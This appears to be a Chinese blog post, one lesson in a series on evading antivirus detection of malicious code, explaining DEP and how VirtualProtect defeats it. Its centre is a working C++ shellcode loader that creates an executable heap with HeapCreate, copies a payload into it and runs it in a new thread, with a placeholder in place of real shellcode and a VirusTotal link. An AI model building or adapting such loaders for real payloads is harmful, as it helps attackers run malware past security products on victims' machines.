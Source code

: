 ```yaml
---
date: "2020-11-29T00:00:00Z"
description: 本节课，使用HeapCreate API来关闭DEP保护，获取在堆上的代码执行权限，从而绕过对VirtualAlloc的检测。
title: 静态恶意代码逃逸（第九课）
url: /archivers/2020-11-29/2
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 数据执行保护（DEP）

DEP(Data Execution Prevention)即“ 数据执行保护”，这是Windows的一项安全机制，主要用来防止病毒和其他安全威胁对系统造成破坏。 微软从Windows XP SP2引入了该技术，并一直延续到今天。

### 为什么要有DEP

在Windows Xp SP2 之前的时代，缓冲区溢出漏洞利用门槛太低了，只要发现有缓冲区溢出漏洞，就可以直接稳定利用，攻击者只需要将Shellcode不断写入堆栈，然后覆盖函数返回地址，代码就可以在堆栈中执行。但堆栈的用途主要是保存寄存器现场，提供一个函数运行时的存储空间，极少数需要代码在堆栈中执行，于是微软为了缓解类似的情况，发明了DEP保护机制，用于限制某些内存页不具有可执行权限。

## 0x02 如何绕过DEP

`VirtualProtect`这个API能够更改内存页的属性为可执行或不可执行，对于二进制漏洞利用来说，溢出的时候，把返回地址设计为`VirtualProtect`的地址，再精心构造一个栈为调用这个API的栈，就可以改变当前栈的内存页的属性，使其从"不可执行"变成"可执行"。

## 0x03 举一反三

由此说来，Shellcode执行其实也需要一个可执行的内存页，那么还有哪些API能够构造一个可执行的内存页呢？

`HeapCreate`可以在进程中创建辅助堆栈，并且能够设置堆栈的属性：

```c
HANDLE WINAPI HeapCreate(
__in DWORD flOptions,
__in SIZE_T dwInitialSize,
__in SIZE_T dwMaximumSize );
```

第一个参数`flOptions`用于修改如何在堆栈上执行各种操作。
你可以设定`0`、`HEAP_NO_SERIALIZE`、`HEAP_GENERATE_EXCEPTIONS`、`HEAP_CREATE_ENABLE_EXECUTE`或者是这些标志的组合。


- `HEAP_NO_SERIALIZE`：对堆的访问是非独占的，如果一个线程没有完成对堆的操作，其它线程也可以进程堆操作，这个开关是非常危险的，应尽量避免使用。
- `HEAP_GENERATE_EXCEPTIONS`：当堆分配内存失败时，会抛出异常。如果不设置，则返回NULL。
- `HEAP_CREATE_ENALBE_EXECUTE`：堆中存放的内容是可以执行的代码。如果不设置，意味着堆中存放的是不可执行的数据。

看到`HEAP_CREATE_ENALBE_EXECUTE`相信很多人能够恍然大悟，我们的Shellcode可以存入这个辅助堆栈中，然后创建一个线程运行它即可。

## 0x04 Shellcode执行

```c++
#include <iostream>
#include <Windows.h>

int main()
{
	char shellcode[] = "123";

	HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

	PVOID Mptr = HeapAlloc(hHep, 0, sizeof(shellcode));

	RtlCopyMemory(Mptr, shellcode, sizeof(shellcode));
	DWORD dwThreadId = 0;
	HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
	WaitForSingleObject(hThread, INFINITE);

    std::cout << "Hello World!\n";
}
```

上方的例子中，我将shellcode替换为了其他字符串，因为我觉得shellcode混淆是另外一回事。


![2020-11-29-17-41-52](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0e3f2579a680f84059c5c53f9d472895.png)

> 样本链接：https://www.virustotal.com/gui/file/1db88905be721e2b279f8f9a6dad1fbf945311b50cc79378d9f69cec5bbe2f6a/detection
